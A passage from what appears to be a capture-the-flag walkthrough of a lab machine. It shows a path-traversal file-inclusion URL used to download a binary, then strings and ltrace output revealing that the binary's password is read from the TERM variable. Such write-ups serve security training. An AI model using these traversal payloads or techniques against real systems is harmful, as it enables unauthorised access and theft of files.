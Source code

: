 ```
> }
> else
> {
>     echo "file not found ".\$filepath;
> }
> ?>
> EOF
```

From Firefox I downloaded qsub by going to the following URL:
```
http://pinkydb:7654/pageegap.php?1337=../../../../../../../tmp/getfile.php
```

Running strings against qsub provides some information but no obvious passwords are visible.
```
root@kali:~/Downloads# strings qsub
---SNIP---
puts
strlen
send
setresgid
asprintf
getenv
setresuid
system
getegid
geteuid
---SNIP---
/bin/echo %s >> /home/pinky/messages/stefano_msg.txt
%s <Message>
TERM
[+] Input Password: 
Bad hacker! Go away!
[+] Welcome to Question Submit!
[!] Incorrect Password!
;*3$"
GCC: (Debian 6.3.0-18+deb9u1) 6.3.0 20170516
---SNIP---
```

Running qsub using ltrace (on my 64bit Kali Linux virtual machine) revealed that the password is taken from the `TERM` environmental variable and is `xterm-256color`.
```
root@kali:~/Desktop# ltrace ./qsub test
getenv("TERM")                                   = "xterm-256color"
printf("[+] Input Password: ")                   = 20
__isoc99_scanf(0x55a6f5d15cb5, 0x7ffc3d9d8160, 0x7f66d45ca760, 0xfbad2a84[+] Input Password: test2
) = 1
strlen("test2")                                  = 5
strcmp("test2", "xterm-256color")                = -4
puts("[!] Incorrect Password!"[!] Incorrect Password!
)                  = 24
exit(0 <no return ...>
+++ exited (status 0) +++
```

